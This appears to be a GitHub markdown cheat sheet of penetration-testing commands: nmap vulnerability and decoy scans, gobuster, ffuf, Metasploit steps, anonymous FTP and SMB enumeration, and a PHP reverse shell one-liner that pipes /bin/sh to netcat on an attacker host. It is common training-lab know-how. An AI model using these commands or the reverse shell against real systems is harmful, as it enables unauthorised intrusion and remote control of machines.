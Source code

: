 # Useful Codes
---
## nMap
---
- Vulnerability Script Nmap SE
```bash
sudo nmap $IP -sV --script vuln
```
- Decoy IP Nmap
```bash
sudo nmap $IP -sS -Pn -n -D RND:5
```
- Update Script DB
```bash
sudo nmap --script-updatedb
```
- Find Scripts for nMap
```bash
find / -type f -name $INPUT* 2>/dev/null | grep scripts
```
- FTP Scan with Scripts
```bash
sudo nmap -sV -p21 -sC -A 10.129.14.136
```
- SMB Scan with Scripts
```bash
sudo nmap $IP -sV -sC -p139,445
```
---
## Gobuster
---
- Gobuster Dir

```bash
gobuster dir -u http://$IP --wordlist $Wordlist
```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
## Revshells
---
- PHP Reverse Shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```

---
## XML Prettyfy
---
```bash
xsltproc all.xml -o all.html (nmap xml to html)
```
---
## SSL Certificate
- Check Certificate Term Json
```bash
curl -s https://crt.sh/\?q\=$Domain\&output\=json | jq .
```
- Check Certificate Unique Subdomain
```bash
curl -s https://crt.sh/\?q\=$Domain\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u
```
---
## Metasploit
- Run Metasploit CLI
```bash
msfconsole
```
-Search exploit
```bash
search <exploit>
```
-Show Exploit options
```bash
show options
```
or
```bash
options
```
-Set parameter for exploit
```bash
set <option> <Value>
```
-Run exploit
```bash
run
```
-Show Payloads
```bash
show payloads
```
-Set Payloads
```bash
set payload <no.>
```
-Show Target of exploit
```bash
show targets
```
-Set Targets
```bash
set target <index no.>
```
-[Meterpreter Commands](/Meterpreter_Commands.md)

---
## FTP
- Download All Available Files
```bash
wget -m --no-passive ftp://anonymous:anonymous@$IP

```
- Recursive Listing
```bash
ls -R
```
---
## SMB (Samba)

- Get Smb config
```bash
cat /etc/samba/smb.conf | grep -v "#\|\;" 
```

- List Server's Shares with Null Session (-N) that is an anonymous access.
```bash
smbclient -N -L //$IP
```
## Network File System (NFS)
- Enumerate
```bash
sudo nmap 10.129.9.119 -p111,2049 -sV -sC
```
---

## Ffuf
```bash
ffuf -w ./vhosts -u http://192.168.10.10 -H "HOST: FUZZ.randomtarget.com" -fs 612
```

## Various
- Lista Folder
```bash
tree $PATH
```

